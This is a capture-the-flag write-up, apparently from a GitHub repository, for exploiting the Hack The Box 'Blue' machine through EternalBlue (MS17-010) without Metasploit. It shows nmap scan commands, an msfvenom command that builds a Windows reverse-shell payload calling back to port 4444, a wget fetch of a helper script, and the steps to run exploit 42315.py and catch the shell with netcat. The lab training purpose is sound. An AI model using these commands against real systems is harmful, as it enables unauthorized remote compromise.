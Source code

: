 Blue without Metasploit:

![Blue](https://user-images.githubusercontent.com/55708909/91400272-fe577080-e85c-11ea-83eb-62df0e7decde.png)

tarting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.40

![Blue_nmap](https://user-images.githubusercontent.com/55708909/91406950-14b2fb80-e860-11ea-963e-24b543e3b6b1.png)

Since basic tools doesn't work therefore again i run nmap vulnerability scan its a kind of methodolgy which is helpful for me.

![Blue_vuln](https://user-images.githubusercontent.com/55708909/91407940-a91d5e00-e860-11ea-9af1-7b89d7ce97fb.png)


Nmap found only one vulnerability that is eternal blue so we are going to exploit it.

![Blue_exploit](https://user-images.githubusercontent.com/55708909/91408457-8b042d80-e861-11ea-90ee-cb9a68007cd4.png)

First create a payload using msfvenom 

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

edit 42315.py files

![42315_PART_1](https://user-images.githubusercontent.com/55708909/91409346-eaaf0880-e862-11ea-8b35-88a345bb3cf7.png)

![42315_PART_2](https://user-images.githubusercontent.com/55708909/91409465-103c1200-e863-11ea-8e7d-b6e316b7b6fb.png)

Before running the exploit you need one more file that is mysmb.py files which you can get it from here

wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/mysmb.py

now open a netcat session at port 4444 and run the exploit using these commands : python 42315.py 10.10.10.40

Here we have a netcat session from target machine.

![Blue_shell](https://user-images.githubusercontent.com/55708909/91410383-76756480-e864-11ea-8f11-642241382da9.png)













